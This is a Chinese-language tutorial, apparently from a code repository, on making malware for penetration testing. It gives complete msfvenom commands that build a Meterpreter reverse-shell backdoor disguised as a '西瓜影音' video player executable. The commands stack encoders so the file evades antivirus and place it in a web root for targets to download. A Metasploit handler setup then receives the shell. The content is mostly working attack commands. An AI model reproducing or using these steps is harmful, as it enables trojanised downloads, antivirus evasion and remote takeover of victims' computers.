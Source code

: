 # 制作 windows 和 linux 客户端恶意软件进行渗透



#### 一、制作 Windows 恶意软件获取 shell 

> msfvenom 是 msfpayload,msfencode 的结合体，可利用 msfvenom 生成木马程序,并在目标机 上执行,在本地监听上线。

###### 1、生成西瓜影音.exe 后门程序

```
##使用一个编码器##
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST="监听机IP" LPORT=4444 -b "\x00" -e x86/shikata_ga_nai -i 10 -f exe -o  /var/www/html/西瓜影音 1.exe 
```

```
##使用两个编码器组合编码##  
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp  LHOST=192.168.36.136 LPORT=4444 -b "\x00" -e x86/shikata_ga_nai -i 20 | msfvenom -a x86  --platform windows -e x86/alpha_upper -i 10 -f exe -o /var/www/html/西瓜影音 2.exe 
```

```
参数说明
	-a 					#指定架构如 x86 x64。 x86 代表 32 位， x64 代表 64 位。 32 位软件可以在 64 位系统上运 行。所以						 #我们生成 32 位的后门，这样在 32 位和 64 位系统中都可以使用。 
    
	--platform 			#指定平台，这里选择 windows，通过 
	--l platforms 		#可以查看所有支持的平台 
	-p 					#设置攻击载荷，我们使用 windows/meterpreter/reverse_tcp。
	
	-l payloads 		#查看所 有攻击载荷 LHOST 目标主机执行程序后连接我们 Kali 的地址 LPORT 目标主机执行程序后连接我们 						#Kali 的端口 	
	
	-b 					#去掉坏字符，坏字符会影响 payload 正常执行。 扩展：\x00 代表 16 进制的“00”组成的字符串。通过 							#ASCII 码换成能识别的就是："00" - "00000000" - NUL。由于"00000000"是不可见字符，所以代码中没						  #用。 
	
	-e 					#指定编码器，也就是所谓的免杀，x86/shikata_ga_nai 是 msf 自带的编码器，可以通过 
	-l  				#encoders 查看所有编码器 
	-i 					#指定 payload 有效载荷编码迭代次数。 指定编码加密次数，为了让杀毒软件，更难查出源代码 
	-f 					#指定生成格式，可以是 raw，exe，elf，jar，c 语言的，python 的，java 的……
    
	-l  formats 		#查看所有支持的格式 -o 指定文件名称和导出位置。 
						指定到网站根目录/var/www/html，方便在肉机上下载后门程序
```

###### 2、在 MSF 上启动 handler 开始监听后门程序

```
msfconsole msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp 
msf6 exploit(multi/handler) > set LHOST 192.168.36.136 
msf6 exploit(multi/handler) > set LPORT 4444 
msf6 exploit(multi/handler) > exploit
```
